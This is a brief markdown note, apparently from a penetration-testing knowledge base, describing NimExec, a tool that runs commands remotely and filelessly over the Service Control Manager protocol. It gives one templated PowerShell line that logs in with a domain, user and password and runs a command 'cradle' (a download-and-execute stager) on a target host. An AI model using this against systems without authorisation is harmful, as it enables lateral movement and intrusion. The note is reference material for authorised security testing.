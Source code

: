 ```yaml
---
tags:
  - tool
---
```

# NimExec

[NimExec](https://github.com/frkngksl/NimExec) is a fileless remote command execution tool that operates by exploiting the Service Control Manager Remote Protocol (MS-SCMR).

## Capabilities

```powershell
# Connect and execute a command
.\NimExec -d $DOMAIN -u $USER -p '$PASSWD' -t $IP -c 'cmd.exe /c $CRADLE' -v
```
